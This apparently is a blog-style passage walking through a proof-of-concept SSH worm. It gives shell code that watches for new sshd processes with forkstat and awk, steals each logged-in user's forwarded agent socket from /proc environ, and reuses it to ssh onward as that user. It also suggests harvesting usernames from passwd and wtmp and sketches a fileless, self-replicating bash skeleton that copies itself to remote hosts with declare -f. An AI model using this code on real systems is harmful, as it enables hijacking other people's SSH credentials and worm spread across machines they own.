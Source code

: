 And so, with a bit of awk, we can trigger a loop based on an sshd execution event:

```shell
forkstat -s -l -e fork exec thread clone \
| awk '$4=="parent" && $5=="sshd" \
  {print $3; fflush(stdout) }' \
| while read f; do 
  ...
done
```

The forkstat is just looking for the types of system calls to report on. Those four: fork, exec, thread, clone, seemed to be the only 4 we care about here (and maybe we don’t need to see them all either - those just seem sane). Next awk is filtering for “parent” and the process name of “sshd” and printing the third “word” which is the PID that while gets sent. I then clear the buffer to assure it’s not waiting with half a line processed.

Next, we need to figure out where the socket file is stored. You can obviously just preform a find for it (which you may want a different mechanism to do if you can’t get sudo). However, that is fortunately stored as an environment variable for the sshd process we’re reading into our loop. We can find the file from there:

```shell
cat "/proc/$pid/environ" \
  | tr '\0' '\n' \
  | grep SSH_AUTH_SOCK \
  | cut -f2 -d'='
```

We then need the username who logged in. They may go as another name on different hosts, but people using the same username seems a decent enough guess. Grab this however you like - I prefer just looking at the ownership of the files in proc. You may also consider ways to harvest other usernames you may try like looking at /home directories or passwd or wtmp or searching logs etc. For my proof of concept, I just used the logged in user.

You can then export the auth socket file you’ve got like you normally would, and run ssh like normal (but as that user).

## R0

I’m now running fairly idly on a host computer and triggering every time someone ssh’s in, but I still need to worm. That’s the goal, right? To make sure I’m big and bad and run everywhere?

Unfortunately, the forkstat command isn’t very common, so I need to scp it over in order to run on a new host. However, with that aside, we can easily replicate a local bash function over ssh and don’t even need to touch a disk to run. If I declare a local bash function called _func, then I just do:

> ssh “${user}@${host}” “$(declare -f _func) && _func)”

And it runs my local function on a remote host. Which means, that we need to be running inside _func already so that we can call ourselves on the remote host and worm. What this looks like is:

```shell
#!/bin/bash

<local initialization>

_runner () {
  <remote initialization>
  _main
}

_main () {
  <local and remote initialization>
  <loop run>
    ssh host “$(declare -f _runner) && _runner”
}

```